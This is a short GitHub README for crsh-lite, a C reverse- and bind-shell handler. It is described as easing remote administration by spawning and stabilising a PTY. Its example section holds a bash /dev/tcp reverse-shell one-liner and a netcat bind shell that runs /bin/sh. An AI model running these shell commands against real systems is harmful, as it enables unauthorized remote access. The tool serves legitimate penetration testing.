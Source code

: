 # crsh-lite

crsh-lite is a light shell handler written in C, meant to make the process of remote administration easier. 

It uses netcat-like functionality to provide asynchronous I/O operations on the remote host. It also automatically spawns a PTY, stabilizes your prompt and resizes the remote terminal, as your local one changes.

crsh-lite is stageless, and only requires a normal reverse or bind shell to be executed. It's essentially a netcat program, but you don't have to worry about spawning a PTY, pressing CTRL+Z, setting your terminal to raw mode, etc.

## Example Compilation

```bash
$ make
```

## Syntax

```bash
# Server mode (listen)
$ ./crsh-lite <LPORT>

# Client Mode (connect)
$ ./crsh-lite <RPORT> <RHOST>
```

## Example Usage

```bash
$ ./crsh-lite 9001
$ ./crsh-lite 1337 localhost
```

## Example Shell

```bash
bash -i >&/dev/tcp/localhost/9001
nc -lvp 1337 -e /bin/sh
```

